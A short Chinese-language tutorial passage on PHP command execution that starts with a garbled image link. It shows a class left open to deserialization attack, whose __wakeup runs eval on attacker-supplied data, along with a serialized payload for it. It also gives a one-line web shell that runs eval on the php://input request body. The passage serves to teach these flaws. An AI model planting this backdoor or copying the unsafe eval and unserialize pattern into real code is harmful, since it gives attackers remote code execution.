 ![Syntax]](ex_5.png [PHP Curly)

### php反序列化

这是根据php反序列化漏洞来实现命令执行，可以先创建一个反序列化的漏洞文件，再去调用反序列化函数unserialize

```php
<?php
class test{
    public $a="123";
    public function __wakeup(){
        eval($this->a);
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:10:"phpinfo();";}');
```

![php反序列化](ex_6.png)

### php://input方法

php://input可以访问请求的原始数据的只读流，我们可以理解为我们传post参数，php://input会读取到，这时候我们就可以加以利用了。

```php
<?php
@eval(file_get_contents('php://input'));
```
